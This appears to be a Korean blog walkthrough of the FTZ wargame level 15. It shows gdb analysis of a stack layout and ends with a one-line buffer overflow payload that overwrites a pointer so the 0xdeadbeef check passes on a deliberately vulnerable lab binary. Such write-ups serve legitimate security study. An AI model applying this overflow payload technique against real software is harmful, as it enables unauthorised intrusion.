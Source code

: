 ```yaml
---
title:  "[FTZ] level 15"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-19 16:34:29

---
```


# level 15

**level15 / guess what**

힌트

![image](https://user-images.githubusercontent.com/69203345/146667900-4501e4dc-251c-4e21-b16c-98e4d14d9a70.png)

이번에는 check가 포인터이다  
check 의 값 = 0xdeadbeef가 존재하는 곳의 주소

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146668091-5d422f2a-65d2-4251-89e9-8004675cb5b7.png)

0x080484b0 <main+32>: cmp DWORD PTR [eax], 0xdeadbeef 비교

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

>x/20x main  
main 부터 x(16진수)로 20개 를 보여달라

![image](https://user-images.githubusercontent.com/69203345/146668450-6f375544-2f31-4fe1-acbd-941f135a6c51.png)

0xdeadbeef의 주소가 0x80484b2 임을 확인  

페이로드 
> (python -c 'print "a"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme

![image](https://user-images.githubusercontent.com/69203345/146668507-8205ab79-b807-4297-ad8a-2455dac2e52e.png)